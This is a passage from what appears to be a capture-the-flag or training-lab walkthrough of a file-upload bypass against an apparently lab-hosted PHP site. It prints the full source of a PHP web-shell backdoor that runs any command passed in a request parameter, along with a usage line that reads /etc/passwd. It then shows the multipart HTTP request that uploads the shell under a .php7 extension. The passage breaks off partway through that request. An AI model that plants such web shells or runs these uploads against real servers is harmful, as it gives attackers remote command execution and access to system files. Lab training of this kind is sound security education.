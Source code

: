 `curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php7`:
```
test
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/simple-backdoor.php ./simple-backdoor.php7`

`cat ./simple-backdoor.php7`:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30586794552660421611961380276
Content-Length: 580
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------30586794552660421611961380276
Content-Disposition: form-data; name="fileToUpload"; filename="simple-backdoor.php7" 📌
Content-Type: application/octet-stream 📌

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

```